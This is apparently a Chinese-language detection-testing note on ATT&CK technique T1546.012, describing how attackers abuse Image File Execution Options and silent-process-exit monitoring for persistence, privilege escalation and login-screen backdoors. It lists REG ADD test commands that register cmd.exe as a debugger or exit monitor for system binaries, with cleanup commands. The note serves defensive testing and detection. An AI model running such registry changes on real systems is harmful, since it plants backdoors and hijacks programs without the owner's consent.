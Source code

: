 # T1546-012-win-事件触发执行-图片文件执行选项注入

## 来自ATT&CK描述

攻击者可以通过执行由图像文件执行选项 (IFEO) 调试器触发的恶意内容来建立持久性或权限提升。IFEO使开发人员能够将调试器附加到应用程序。创建进程时，应用程序的IFEO中的调试器将附加到应用程序的名称之前，从而有效地在调试器下启动新进程（例如，`C:\dbg\ntsd.exe -g notepad.exe`）。

IFEO可以通过注册表直接设置，也可以通过GFlags工具在Global Flags中设置。IFEO表示为`Debugger`注册表中的值，在那里是附加调试器的二进制文件`HKLM\SOFTWARE{{\Wow6432Node}}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\``<executable>`

IFEO还可以在指定程序静默退出（即被自身或第二个非内核模式进程提前终止）时启动任意监控程序。与调试器类似，静默退出监控可以通过GFlags或通过直接修改 IFEO和静默进程退出注册表值来启用`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\`。

与Accessibility Features类似，在 Windows Vista 和更高版本以及 Windows Server 2008或更高版本上，可以修改注册表项，将“cmd.exe”或其他提供后门访问的程序配置为可访问性程序的“调试器” （例如：utilman.exe）。修改注册表后，在使用键盘或与远程桌面协议连接时在登录屏幕上按适当的组合键将导致“调试器”程序以 SYSTEM 权限执行。

与Process Injection类似，这些值也可能被滥用，通过利用恶意可执行文件在计算机上不同进程的上下文中加载和运行来获得权限提升。安装IFEO机制还可以通过持续触发调用来提供持久性。

恶意软件还可能通过注册无效调试器来使用IFEO来减少防御，这些调试器重定向并有效地禁用各种系统和安全应用程序。

## 测试案例

### 测试1 IFEO Add Debugger
测试命令，用命令提示符运行，需要管理员权限（root/admin）：
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```
target_binary：C:\Windows\System32\calc.exe
payload_binary：C:\Windows\System32\cmd.exe
清理命令：
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```

### 测试2 IFEO Global Flags
测试命令，用命令提示符运行，需要管理员权限（root/admin）：
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```
target_binary：C:\Windows\System32\notepad.exe
payload_binary：C:\Windows\System32\cmd.exe
清理命令：
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1

reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1

reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```
## 检测日志
